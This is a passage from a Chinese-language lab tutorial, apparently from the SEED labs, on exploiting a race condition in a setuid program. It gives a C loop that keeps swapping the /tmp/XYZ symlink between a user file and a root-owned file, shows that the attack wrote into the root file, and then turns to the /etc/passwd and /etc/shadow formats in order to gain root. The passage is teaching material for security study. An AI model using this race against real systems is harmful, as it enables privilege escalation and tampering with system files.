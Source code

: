 3.创建攻击代码 attacker.c 并编译

```
int main()
{
    while(1){
        system("ln -sf /home/seed/race/tmp_file /tmp/XYZ");
        system("ln -sf /home/seed/race/root_file /tmp/XYZ");
    }
    return 0;
} 
```

i 此时文件夹目录的情况： ![图片描述信息](img/userid51209labid807time1428042346102.jpg) （这里更正 root_file, 请将该文件用户组改为 root）

4.终端里新建标签页，先运行 attacker 再运行 check.sh ![图片描述信息](img/userid51209labid807time1428046874268.jpg) 可以看到内容已经被写进 root_file 中了。（顺序倒过来的话会导致调用 fopen 生成一个 root 权限的/tmp/XYZ 文件，那样攻击就失败了。）

**实验 1.2：获取 root 权限**

先回顾下 passwd 文件与 shadow 文件中的格式

```
/etc/passwd:
-------------
smith:x:1000:1000:Joe Smith,,,:/home/smith:/bin/bash
/etc/shadow:
-------------
smith:*1*Srdssdsdi*M4sdabPasdsdsdasdsdasdY/:13450:0:99999:7::: 
```
